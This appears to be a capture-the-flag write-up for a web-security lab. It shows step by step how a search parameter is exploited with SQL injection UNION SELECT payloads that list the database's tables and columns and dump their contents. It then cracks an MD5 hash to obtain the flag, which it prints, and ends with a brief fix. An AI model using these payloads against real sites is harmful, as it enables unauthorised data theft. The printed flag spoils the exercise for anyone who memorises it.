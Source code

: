 # Where:
    /?page=searchimg
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    Title: list_images
    Url :
    
-This tells us that the only table is *list_images*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: id
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: url
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: title
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: comment
    Url :
    
-This tells us that there are the following columns: *id*, *url*, *title* and *comment*.

-We then enter:

    -1 union select NULL, concat (id, url, title, comment) from list_images

-We get all the images' information.
-The 5th image has the following comment that give us a string and instructions:

    Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

-If we decrypt *1928e8083cf461a51303633093573c46* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *albatroz*
-Which we then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
    f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Possible abuses:
Hackers could potentially access all info in your BD even hashed passwords could potentially be decrypted using sites.

# Fix:
Use [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) to prevent sql injections.
I do also believe sha256 is a better hash to use especialy when combined with a salt.
